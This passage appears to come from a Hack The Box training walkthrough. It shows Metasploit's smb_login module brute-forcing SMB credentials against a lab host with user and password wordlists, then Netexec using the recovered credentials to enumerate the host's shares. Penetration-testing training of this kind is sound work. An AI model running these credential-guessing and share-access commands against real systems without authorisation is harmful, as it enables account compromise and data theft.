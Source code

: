 ```shell-session
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Now that we have gotten our credentials, we can utilize Netexec to gain access to the shares: 
```shell-session
realCustampin@htb[/htb]$ netexec smb 10.129.42.197 -u "user" -p "password" --shares

SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password 
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE      
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC
```